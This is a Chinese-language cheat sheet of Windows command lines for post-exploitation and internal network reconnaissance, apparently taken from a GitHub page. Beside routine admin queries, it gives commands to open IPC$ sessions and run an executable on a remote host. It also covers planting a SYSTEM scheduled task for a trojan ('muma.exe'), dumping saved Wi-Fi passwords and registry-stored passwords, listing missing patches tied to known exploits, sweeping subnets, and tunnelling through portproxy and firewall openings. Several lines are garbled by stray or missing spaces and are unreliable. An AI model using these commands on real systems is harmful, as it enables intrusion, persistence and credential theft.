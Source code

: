 ```
wmic nteventlog get path,filename,writeable //查询系统日志文件存储位置
net use \\IP\ipc$  password  /user:username      //建立IPC会话（工作组模式）
net use  z:  \\192.168.1.1      //建立映射到本机Z盘
net time \\172.16.16.2        //查询共享主机的是
at \\172.16.16.2 13:50 c:\windows\2009.exe      //在共享主机上执行
netstat  -ano      //查看开放的端口
netstat -an | find “3389”   //找到3389端口
net accounts      //查看本地密码策略
nbtstat –A ip      //netbiso查询
net view      //查看机器注释或许能得到当前活动状态的机器列表，如果禁用netbios就查看不出来
echo %PROCESSOR_ARCHITECTURE%        //查看系统是32还是64位  
set                              //查看系统环境设置变量
net start                     //查看当前运行的服务
wmic service list brief             //查看进程服务
wmic process list brief         //查看进程
wmic startup list brief       //查看启动程序信息
wmic product list brief           //查看安装程序和版本信息（漏洞利用线索）
wmic startup list full         //识别开机启动的程序
wmic process where(description='mysqld.exe') >>mysql.log  //获取软件安装路径
for /f 'skip=9 tokens=1,2 delims=:' %i in ('netsh wlan showprofiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %jkey=clear
//一键获取wifi密码
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
//查看是否支持posershell
qwinsta                       //查看登录情况
schtasks.exe  /Create /RU'SYSTEM' /SC MINUTE /MO 45 /TN FIREWALL /TR 'c:/muma.ex    e' /ED 2017/4/7  //添加计划任务
set KB2829361=MS13-046&set KB2830290=MS13-046&setKB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&setKB3077657=MS15-077&set KB3045171=MS15-051&setKB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&setKB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280)do @type a.txt|@find /i '%i'||@echo %%i% Not Installed!)&del /f/q /a a.txt
//windows未打补丁情况
REG query HKCU  /v 'pwd' /s  //获取保存到注册表中的密码
```

### 内网网络结常用命令

```
tracert IP    //路由跟踪
route print    //打印路由表
arp -a          //列出本网段内所有活跃的IP地址
arp -s （ip + mac）//绑定mac与ip地址
arp -d （ip + mac） //解绑mac与ip地址
nbtscan -r 192.168.16.0/24      //通过小工具nbtscan扫描整个网络
netsh firewall show config     //查看防火墙策略
netsh firewall show state     //查看防火墙策略
for /l %i in (1,1,255) do @ping 10.0.0.%i -w 1 -n 1 | find /i'ttl'   //批量扫描内网存活主机
windows自带端口转发：
netsh interface ipv6 install  //首先安装IPV6（xp、2003下IPV6必须安装，否则端口转发不可用！）
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=22connectaddress=1.1.1.1 connectport=22  //将本机22到1.1.1.1的22
netsh interface portproxy add v4tov4 listenaddress=192.168.193.1listenport=22 connectaddress=8.8.8.8 connectport=22
netsh interface portproxy add v4tov4 listenaddress=192.168.193.1listenport=22 connectaddress=www.baidu.com connectport=22
netsh interface portproxy show all // 查看转发配置
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0listenport=22 //删除配置
netsh firewall set portopening protocol=tcp port=22 name=Forwardmode=enable scope=all profile=all  //添加防火墙规则，允许连接22：
```
